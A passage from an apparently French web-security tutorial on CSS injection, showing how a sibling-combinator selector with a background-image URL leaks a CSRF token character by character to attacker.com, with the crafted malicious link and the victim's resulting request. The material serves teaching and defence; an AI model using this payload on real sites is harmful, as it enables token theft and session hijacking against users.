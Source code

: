 Cela est en fait possible en utilisant les combinateurs `~` et `*` à la suite du sélecteur CSS :&#x20;

{% code overflow="wrap" %}
```html
<style>
  input[name=csrf-token][value^=a]~* {
    background-image:url(https://attacker.com/?leak=a);
  }
</style>
```
{% endcode %}

{% hint style="info" %}
Le combinateur `~` ([general sibling combinator](https://developer.mozilla.org/en-US/docs/Learn/CSS/Building\_blocks/Selectors/Combinators#general\_sibling\_combinator)) sélectionne les frères d'un élément, même dans le cas où ils ne sont pas adjacents, mais doivent avoir le même parent. Il est possible également d'utiliser le combinateur `+` ([adjacent sibling combinator](https://developer.mozilla.org/en-US/docs/Learn/CSS/Building\_blocks/Selectors/Combinators#adjacent\_sibling\_combinator)) mais son utilisation est alors plus restreinte.
{% endhint %}

{% hint style="info" %}
Le sélecteur`*` ([universal selector](https://developer.mozilla.org/en-US/docs/Web/CSS/Universal\_selectors)) correspond à un élément de n'importe quel type.
{% endhint %}

Le lien malicieux devenant alors :&#x20;

{% code overflow="wrap" %}
```
https://vulnerable.com/css-injection-element-hidden.php?color=black;}input[name=csrf-token][value^=a]~*{background-image:url(https://attacker.com/?leak=a);}
```
{% endcode %}

Et la requête effectuée par le navigateur de la victime sera :&#x20;

{% code overflow="wrap" %}
```http
GET /?leak=a HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>
